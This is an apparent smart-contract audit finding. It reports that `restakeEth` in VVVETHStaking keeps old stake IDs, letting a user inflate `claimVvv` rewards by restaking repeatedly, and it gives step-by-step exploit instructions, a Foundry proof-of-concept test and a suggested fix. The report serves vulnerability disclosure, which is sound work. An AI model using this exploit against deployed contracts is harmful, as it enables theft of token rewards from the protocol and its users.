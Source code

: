 Deep Sepia Reindeer

high

# Anyone can `claimVvv` tokens as much as possible by calling `restakeEth` function again and again.

High

Dudex_2004

## Summary
See detail.

## Vulnerability Detail
In the `VVVETHStaking.sol` contract when a user initiates a `restakeEth` operation, a new stake is created with a new `stakeId` using the `_stakeEth` function.
However, the old `stakeId` is not removed from the `_userStakeIds` mapping, which maintains a record of stake IDs for each user.
Now old and new stake IDs remains in this array, the accrued VVV calculation will include both stakes and user will get more token.

Scenario(get more by restakeEth):

1. First of all user calls `stakeEth` function with msg.value and gets `stakeId`
2. Using that `stakeId` calls `restakeEth`  function and gets new `stakeId` 
3. Cause old `stakeId` is not removed from the `_userStakeIds` mapping it will be 2
4. After duration completes finally calls `claimVvv` and gets  tokens corresponding to `_userStakeIds`
5. User repeats and gets Vvv tokens


Run this POC in `VVVETHStaking.unit.t.sol`
Run test with `forge test --mt "testRestakeAgainAndAgain" -vvvvv`

```javascript
function testRestakeAgainAndAgain() public {
        vm.startPrank(msg.sender);
        uint256 stakeEthAmount = 1 ether;
        uint256 stakeId = EthStakingInstance.stakeEth{ value: stakeEthAmount }(
            VVVETHStaking.StakingDuration.ThreeMonths
        );
        // forward to first timestamp with released stake
        advanceBlockNumberAndTimestampInSeconds(
            EthStakingInstance.durationToSeconds(VVVETHStaking.StakingDuration.ThreeMonths) + 1
        );

        // restake
        VVVETHStaking.StakingDuration restakeDuration = VVVETHStaking.StakingDuration.SixMonths;
        uint256 restakeId1 = EthStakingInstance.restakeEth(stakeId, restakeDuration);
        // waits till duration complete
        advanceBlockNumberAndTimestampInSeconds(EthStakingInstance.durationToSeconds(restakeDuration) + 1);

        // again restakes
        VVVETHStaking.StakingDuration newRestakeDuration = VVVETHStaking.StakingDuration.ThreeMonths;
        uint256 restakeId2 = EthStakingInstance.restakeEth(restakeId1, newRestakeDuration);
        // again waits till duration complete
        advanceBlockNumberAndTimestampInSeconds(EthStakingInstance.durationToSeconds(restakeDuration) + 1);
        // three userStakeIds
        EthStakingInstance.userStakeIds(msg.sender);
        // see instead of 1e18 generatedVvvAmount is alot more
        uint256 generatedVvvAmount = EthStakingInstance.calculateAccruedVvvAmount();
        EthStakingInstance.claimVvv(generatedVvvAmount);
        // user could claimVvv tokens as much as possible by restakeEth again and again with new stakeId
}
```
## Impact
Anyone can `claimVvvToken` as much as possible by calling `restakeEth` function by new `_stakeId` again and again with single stake amount.

## Code Snippet
https://github.com/sherlock-audit/2024-03-vvv-vesting-staking/blob/main/vvv-platform-smart-contracts/contracts/staking/VVVETHStaking.sol#L147C5-L156C6

https://github.com/sherlock-audit/2024-03-vvv-vesting-staking/blob/main/vvv-platform-smart-contracts/contracts/staking/VVVETHStaking.sol#L290C4-L310C6

https://github.com/sherlock-audit/2024-03-vvv-vesting-staking/blob/main/vvv-platform-smart-contracts/contracts/staking/VVVETHStaking.sol#L186

https://github.com/sherlock-audit/2024-03-vvv-vesting-staking/blob/main/vvv-platform-smart-contracts/contracts/staking/VVVETHStaking.sol#L201C4-L214C6

## Tool used

Manual Review

## Recommendation
consider remove the old `stakeId` from the `_userStakeIds` mapping upon `restakeEth`
